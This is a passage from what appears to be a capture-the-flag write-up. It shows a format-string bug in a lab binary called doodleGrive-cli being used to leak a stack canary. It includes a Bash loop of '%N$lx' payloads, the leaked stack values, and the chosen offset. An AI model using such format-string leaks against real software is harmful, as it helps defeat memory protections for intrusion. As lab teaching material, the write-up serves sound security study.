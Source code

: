 I’ll use a simple Bash loop to try different offsets:

```

oxdf@hacky$ for i in $(seq 1 30); do echo -n "$i: "; echo "%${i}"'$lx' | ./doodleGrive-cli | grep "Enter password for" | cut -d' ' -f4; done
1: 10:
2: 0:
3: 0:
4: 7ffc322aa7b0:
5: 13:
6: 786c243625:
7: 2:
8: 4c00e0:
9: 40339c:
10: 7ffe4d8f3f48:
11: 400518:
12: 403320:
13: 4033c0:
14: 0:
15: 7e298c924cb0a00:
16: 403320:
17: 402b50:
18: 0:
19: 100000000:
20: 7fff573f1318:
21: 4021ed:
22: 0:
23: 1900000000:
24: 21:
25: 2000000000:
26: 0:
27: 0:
28: 0:
29: 0:
30: 0:

```

15 looks like the best candidate to be the carary. If I run the loop a couple more times, most of the values stay basically the same, but 15 is completely random. That’s the canary.

The output looks like this:

```

oxdf@hacky$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
%15$lx
Enter password for ae1d5d1e957b4200:

```
